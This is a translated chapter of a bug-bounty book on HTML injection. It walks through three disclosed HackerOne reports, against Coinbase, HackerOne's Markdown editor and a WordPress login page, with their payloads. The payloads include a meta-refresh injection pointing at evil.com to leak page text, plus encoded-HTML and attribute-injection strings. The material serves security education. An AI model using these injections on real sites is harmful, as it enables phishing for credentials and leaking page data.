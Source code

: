 # 五、HTML 注入

> 作者：Peter Yaworski

> 译者：[飞龙](https://github.com/)

> 协议：[CC BY-NC-SA 4.0](http://creativecommons.org/licenses/by-nc-sa/4.0/)

## 描述

超文本标记语言（HTML）注入有时也被称为虚拟污染。 这实际上是一个由站点造成的攻击，该站点允许恶意用户向其 Web 页面注入 HTML，并且没有合理处理用户输入。 换句话说，HTML 注入漏洞是由接收 HTML 引起的，通常通过一些之后会呈现在页面的表单输入。 这个漏洞是独立的，不同于注入 Javascript，VBscript 等。

由于 HTML 是用于定义网页结构的语言，如果攻击者可以注入 HTML，它们基本上可以改变浏览器呈现的内容。 有时，这可能会导致页面外观的完全改变，或在其他情况下，创建表单来欺骗用户，例如，如果你可以注入 HTML，你也许能够将 `<form>` 标签添加到页面，要求用户重新输入他们的用户名和密码。 然而，当提交此表单时，它实际上将信息发送给攻击者。

## 示例

### 1\. Coinbase 评论

难度：低

URL：`coinbase.com/apps`

报告链接：`https://hackerone.com/reports/104543`

报告日期：2015.12.10

奖金：$200

描述：

对于此漏洞，报告者识别出 Coinbase 在呈现文本时，实际上在解码 URI 的编码值。 对于那些不熟悉它的人（我在写这篇文章的时候），URI 中的字符是保留的或未保留的。 根据维基百科，保留字是有时有特殊意义的字符，如`/`和`&`。 未保留的字符是没有任何特殊意义的字符，通常只是字母。

因此，当字符被 URI 编码时，它将按照 ASCII 转换为其字节值，并以百分号（`%`）开头。 所以，`/`变成`%2F`，`&`成为`%26`。 另外，ASCII 是一种在互联网上最常见的编码，直到 UTF-8 出现，它是另一种编码类型。 现在，回到我们的例子，如果攻击者输入 HTML：

```html
<h1>This is a test</h1>
```

Coinbase 实际上会将其渲染为纯文本，就像你上面看到的那样。但是，如果用户提交了 URL 编码字符，像这样：

```
%3C%68%31%3E%54%68%69%73%20%69%73%20%61%20%74%65%73%74%3C%2F%68%31%3E
```

Coinbase 实际上会解码该字符串，并渲染相应的字符，像这样：

```
This is a test
```

使用它，报告者演示了如何提交带有用户名和密码字段的 HTML 表单，Coinbase 会渲染他。如果这个用户是恶意的，Coinbase 就会渲染一个表单，它将值提交给恶意网站来捕获凭据（假设人们填充并提交了表单）。

> 重要结论

> 当你测试一个站点时，要检查它如何处理不同类型的输入，包括纯文本和编码文本。特别要注意一些接受 URI 编码值，例如`%2f`，并渲染其解码值的站点，这里是`/`。虽然我们不知道这个例子中，黑客在想什么，它们可能尝试了 URI 编码限制字符，并注意到 Coinbase 会解码它们。之后他们更一步 URL 编码了所有字符。

> <http://quick-encoder.com/url> 是一个不错的 URL 编码器。你在使用时会注意到，它告诉你非限制字符不需要编码，并且提供了编码 URL 安全字符的选项。这就是获取用于 COinbase 的相同编码字符串的方式。

### 2\. HackerOne 无意识 HTML 包含

难度：中

URL：hackerone.com

报告链接：<https://hackerone.com/reports/112935>

报告日期：2016.1.26

奖金：$500

描述：

在读完 Yahoo XSS 的描述（第七章示例四），我对文本编辑器中的 HTML 渲染测试产生了兴趣。这包含玩转 HackerOne 的 Markdown 编辑器，在图像标签中输入一些类似`ismap= "yyy=xxx"`和`"'test"`的东西。这样做的时候，我注意到，编辑器会在双引号里面包含一个单引号 - 这叫做悬置引号。

那个时候，我并没有真正理解它的含义。我知道如果你在某个地方注入另一个单引号，两个引号就会被浏览器一起解析，浏览器会将它们之间的内容视为一个 HTML 元素，例如：

```html
<h1>This is a test</h1><p class="some class">some content</p>'
```

使用这个例子，如果你打算注入一个 Meta 标签：

```html
<meta http-equiv="refresh" content='0; url=https://evil.com/log.php?text=
```

浏览器会提交两个引号之间的任何东西。现在，结果是，这个已经在 HackerOne 的 [#110578](https://hackerone.com/reports/110578) 报告中由 [intidc](https://hackerone.com/intidc) 公开。看到它公开之后，我有一点失望。

根据 HackerOne，它们依赖于 Redcarpet（一个用于 Markdown 处理的 Ruby 库）的实现，来转义任何 Markdown 输入的 HTML 输出，随后它会通过 React 组件的`dangerouslySetInnerHTML`直接传递给 HTML DOM（也就是页面）。此外，React 是一个 JavaScript 库，可用于动态更新 Web 页面的内容，而不需要重新加载页面。

DOM 指代用于有效 HTML 以及 格式良好的 XML 的应用程序接口。本质上，根据维基百科，DOM 是跨平台并且语言无关的约定，用于展示 HTML、XHTML 和 XMl 中的对象，并与其交互。

在 HackerOne 的实现中，它们并没有合理转义 HTML 输出，这会导致潜在的漏洞。现在，也就是说，查看披露，我觉得我应该测试一下心得代码。我返回并测试了这个：

```md
[test](http://www.torontowebsitedeveloper.com "test ismap="alert xss" yyy="test"\ ")
```

它会变成

```html
<a title="'test" ismap="alert xss" yyy="test" &#39; ref="http://www.toronotwebsi\ tedeveloper.com">test</a>
```

你可以看到，我能够将一堆 HTML 注入到`<a>`标签中。所以，HackerOne 回滚了该修复版本，并重新开始转义单引号了。

> 重要结论

> 仅仅是代码被更新了，并不意味着一些东西修复了，而是还要测试一下。当部署了变更之后，同时意味着新的代码也可能存在漏洞。

> 此外，如果你觉得有什么不对，一定要深入挖掘。我知道一开始的尾后引号可能是个问题，但是我不知道如何利用它，所以我停止了。我本应该继续的。我实际上通过阅读 XSS Jigsaw 的 <blog.innerht.ml> 了解了 Meta 刷新利用（请见“资源”一张），但是这是后事了。

### 3\. WithinSecurity 内容伪造

难度：低

URL：`withinsecurity.com/wp-login.php`

报告链接：`https://hackerone.com/reports/111094`

报告日期：2015.1.16

奖金：$250

描述：

虽然内容伪造实际上和 HTML 注入是不同的漏洞，我也将其包含在这里，因为它们拥有相似的本质，攻击者让一个站点渲染它们选择的内容。

WithinSecurity 构建在 WordPress 平台之上，它包含登录页面`withinsecurity.com/wp-login.php`（这个站点已经合并到了 HackerOne 的核心平台中）。攻击者注意到了在登录过程中，如果发生了错误，WithinSecurity 就会渲染`access_denied`，同时对应 URL 中的`error`参数：

```
https://withinsecurity.com/wp-login.php?error=access_denied
```

注意到了这个，攻击者尝试修改`error`参数，并发现无论参数传递了什么值，都会被站点渲染为错误信息的一部分，并展示给用户。这里是所用的示例：

```
https://withinsecurity.com/wp-login.php?error=Your%20account%20has%20%hacked
```

![](img/5-3-1.jpg)

WithinSecurity 内容伪造

这里的关键是注意到 URL 中的参数在页面中渲染。虽然他们没有解释，我可以假设攻击者注意到了`access_denied`展示在了页面上，但是也包含在 URL 中。这里他们也报告了，漏洞也可以由一个简单的测试，修改`access_denied`参数来找到。

> 重要结论

> 时刻关注传递并且渲染为站点内容的 URL 参数。他们可能就是攻击者的机会，用于欺骗受害者来执行一些恶意动作。

## 总结

HTML 注入向站点和开发者展示了漏洞，因为他可以用于误导用户，并且欺骗它们来提交一些敏感信息，或者浏览恶意网站。就像钓鱼攻击那样。

发现这些漏洞并不是通过仅仅提交 HTML，而是弄清楚站点如何渲染你的输入文本，像是 URI 编码的字符。而且，虽然内容伪造并不和 HTML 注入完全一样，它也是类似的，因为它涉及让一些输入在 HTML 页面中反映给受害者。攻击者应该仔细寻找机会，来操纵 URL 参数，并让它们在站点上渲染。
